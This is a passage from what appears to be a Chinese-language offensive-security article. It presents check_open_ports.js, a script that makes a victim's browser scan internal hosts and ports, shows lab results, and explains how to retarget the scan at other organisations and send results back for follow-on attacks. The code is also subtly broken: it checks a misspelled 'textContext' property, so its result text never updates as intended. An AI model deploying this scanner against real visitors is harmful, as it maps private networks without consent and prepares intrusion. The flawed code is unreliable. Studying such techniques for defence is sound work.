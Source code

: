 JavaScript 文件 check_open_ports.js 看起来是这样的：

```javascript
function scan(resultElem,hostport,serviceName,uriPath) { 
    var image = new Image();
    image.onerror = function() { 
        if (!image) {
            return;
        }
        image = undefined;
        if (resultElem.textContext == '?'){ 
            resultElem.textContent = serviceName + "open";
        }
    };
    image.onload = image.onerror;
if (hostport.split(":")[1] == 443) {
    image.src = 'https://' + hostport + uriPath;
} else {
    image.src = 'http://' + hostport + uriPath;
}
setTimeout(function(){ 
    if (!image) {
        return;
    }
    image = undefined;
    if (resultElem.textContext == '?') { 
        resultElem.textContent = serviceName + "closed";
    }
  },2000);
}

function portscan() { 
    var i = 1;
    hostport = document.getElementById("host" + i + "name").textContent; 
    while (hostport) {
        resultElem = document.getElementById("host" + i + "result"); 
        scan(resultElem,hostport,"","");
        i++;
        hostport = document.getElementById("host" + i + "name").textContent;
    }
}
```

当受害者访问这个页面是，我们将获得：

![A4W87q.png](https://s2.ax1x.com/2019/04/08/A4W87q.png)

**图例 2**: 使用 JavaScript 端口扫描的结果

targetorg.com 域存在于我们的实验室网络中，通过受害者的浏览器使用目标的内部 DNS 服务器来完成对于这些名称的 DNS 查询。对于攻击其他组织，我们可以将 “targetorg.com” 替换为合适的域名，否则我们可以尝试例如 'printer'，没有任何域名，让受害者的 DNS 解析器自动添加正确的域名。

我们可以轻松地修改概念验证（PoC）以将结果发回给我们（不展示此代码），我们可以对结果进行一些分析。我们现在知道主机 wiki.targetorg.com 不太有用，因为它的 HTTP 端口已关闭或主机不存在。 标记为开放的端口可能很有趣，因此我们可以对于这些端口做指纹识别，引导我们进入下一阶段的攻击......
